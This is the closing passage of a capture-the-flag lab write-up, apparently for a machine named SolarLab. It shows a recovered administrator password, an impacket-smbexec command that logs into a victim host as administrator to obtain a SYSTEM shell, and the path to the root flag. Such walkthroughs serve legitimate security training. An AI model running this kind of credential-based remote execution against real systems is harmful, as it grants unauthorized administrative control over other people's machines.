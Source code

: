 We found it!:
```
ThisPasswordShouldDo!@ 
```

## SYSTEM SHELL
let's now login to administrator with the PW:
```bash
impacket-smbexec administrator:'<pw>'@<victim-ip
```
![alt text](../images/solarlab/SYSTEMXD.png)
root flag was found under
 `Administrator\Desktop\root.txt`.

 That's all, Thank you :)
